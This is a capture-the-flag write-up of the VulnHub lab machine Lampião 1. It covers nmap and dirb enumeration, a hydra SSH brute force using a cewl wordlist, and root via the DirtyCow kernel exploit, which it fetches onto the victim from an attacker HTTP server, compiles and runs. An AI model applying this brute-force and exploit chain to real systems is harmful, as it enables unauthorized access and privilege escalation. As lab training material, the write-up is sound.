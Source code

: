 ```yaml
---
published: true
title: Lampião
image: 'https://imgur.com/pRMzLYz.png'
category: Writeup
author: F3dai
---
```


Would you like to keep hacking in your own lab? Try this brand new vulnerable machine! "Lampião 1". Get root! 
This was a great machine as I learnt about a new linux vulnerability DirtyCow. Based on my experience, getting the first foothold was easy but escalating the user rights was slightly more tricky as it involved testing out a few different CVEs. Some research helped me identify which one to use, at the end of the day it's experience with privsec which helps the most.

**URL:** [Lampião](https://www.vulnhub.com/entry/lampiao-1,249/)

**Difficulty:** Easy

**Author:** Tiago Tavares

### Enumeration

Set up the Machine with a host-only adapter and run an nmap command to discover all the hosts on the local host-only network. My interface eth1 is Host-Only on my main OS (Kali Linux).

<pre>nmap -sn 192.168.54.1/24</pre>

![net](https://imgur.com/wcjql1Y.png)

We can identify the machine with the IP 192.168.54.6, so we will scan it for open ports with nmap to a file named "nmap" with the following command:

<pre>nmap -sS -p- -A -o "nmap" 192.168.54.6</pre>

![nmap](https://imgur.com/VFCCq9y.png)

We see port 80 open so let's visit this port with our browser. This is the webpage:

![web](https://imgur.com/xIWHbQG.png)

There doesn't seem to be much, I visit port 1898 on my web browser:

<pre>http://192.168.54.6:1898/</pre>

![1898](https://imgur.com/DsVNj5s.png)

According to the nmap results, there were quite a few entries in the robots.txt. I'll run a dirb scan just to find all the paths:

<pre>dirb http://192.168.54.6:1898/</pre>

![dirb](https://imgur.com/tjqaoIz.png)

First, I'll visit the robots.txt:

<pre>http://192.168.54.6:1898/robots.txt</pre>

![robots](https://imgur.com/BZM1XQo.png)

The above is a snippet of just the disallowed entries. I first visited the changelog.txt path:

<pre>http://192.168.54.6:1898/CHANGELOG.txt</pre>

![changelog](https://imgur.com/3bIk1Va.png)

We can identify a service and version number:

<pre>Drupal 7.54</pre>

This is worth noting in case we need to find any vulnerabilities.

I also wanted to note the potential username "tiago" I found on one of the posts:

<pre>http://192.168.54.6:1898/?q=node/1</pre>

![username?](https://imgur.com/1SEnALL.png)

The URL was worth investigating as well. I tried manually navigating to another post using the URL. I changed ?q=node/1 to ?q=node/2:

<pre>http://192.168.54.6:1898/?q=node/2</pre>

![node 2](https://imgur.com/aEwd0CW.png)

Another possible user named "Eder" as highlighted in the above screenshot. There is also node 3 but no new information. 

I couldn't find much more information on the web pages of this machine so I decided to go straight to brute forcing. There are 2 possible entry points: SSH (identified from our port scan) and the web site login (no admin login page found).

Let's try brute forcing the SSH login - create a wordlist of the 2 usernames found:

<pre>Eder
tiago</pre>

![user list](https://imgur.com/uUAZ9UB.png)

I will use the following hydra command:

<pre>hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 192.168.54.6 -t 4 ssh</pre>

-L specified a username wordlist, -P specifies the password wordlist and -t 4 threads.

The hydra command took too long so I wanted to make my wordlist, especially as this seems to be a Portuguese web server. The post @ ?q=node/1 had a lot of words so I want to use a tool called Cewl to crawl this web page and create a wordlist which I can use for my brute-force. Here is the following command:

<pre>cewl http://192.168.54.6:1898/?q=node/1 --write passwords.txt</pre>

This is the first few lines of the wordlist we have just created:

![head](https://imgur.com/VT7CdlT.png)

Let's execute the hydra command again but with this new password list:

<pre>hydra -L users.txt -P passwords.txt 192.168.54.6 -t 4 ssh</pre>

![hydra result](https://imgur.com/hUJHHUG.png)

We have some credentials returned = tiago:Virgulino

Let's use this to connect via SSH:

<pre>ssh tiago@192.168.54.6
Virgulino</pre>

![ssh login](https://imgur.com/82V3xsa.png)

We have successfully logged in as uid tiago. Nice :)

### Privilege Escalation

For this machine, I will be using a script to identify any vulnerabilities on the system. This is a good script I recommend for Linux machines:

[mzet Github](https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh)

Let's download this onto our local machine first:

<pre>wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh</pre>

![wget script](https://imgur.com/7Q0ku2p.png)

Create a HTTP server so we can transfer this onto our victims machine:

<pre>python -m SimpleHTTPServer 8080</pre>

![http](https://imgur.com/az7GBms.png)

Now let's transfer the files into the victims /tmp directory on our ssh shell:

<pre>cd /tmp
wget http://192.168.54.4:8080/linux-exploit-suggester.sh</pre> 

Make this an executable and execute it.

<pre>chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh</pre>

![exe](https://imgur.com/r419VTU.png)

The output will be a list of possible exploits, I will be using this one in particular:

![dirtycow2](https://imgur.com/FYvkIFe.png)

This is called dirtycow because of the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. 

[Dirty Cow Exploit](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails)

[Here is a youtube video about this exploit.](https://www.youtube.com/watch?v=kEsshExn7aE)

It says the download link however it is no longer stored here. Use this website for the script:

[Source Code](https://www.exploit-db.com/exploits/40847)

As we have done before, download this script onto your local machine and create a simple HTTP server:

<pre>wget https://www.exploit-db.com/raw/40847 40847.cpp
python -m SimpleHTTPServer 8080</pre>

![http](https://imgur.com/MmNh3Sc.png)

Now transfer this file onto the /tmp directory of the victims PC:

<pre>wget http://192.168.54.4:8080/40847
mv 40847 40847.cpp</pre>

![ready](https://imgur.com/eFYdBHu.png)

Now that we have our script 40847.cpp ready, let's compile the file:

<pre>g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil</pre>

![compiled](https://imgur.com/Of8wzTA.png)

We now need to execute "dcow":

<pre>./dcow</pre>

![dcow](https://imgur.com/nHZUYMz.png)

We have been told the root password has been changed to: dirtyCowFun. Let's change to root:

<pre>su root
dirtyCowFun</pre>

We are now logged in as root!

![root](https://imgur.com/G66Xn9q.png)

<pre>id
cd /root
cat flag.txt</pre>


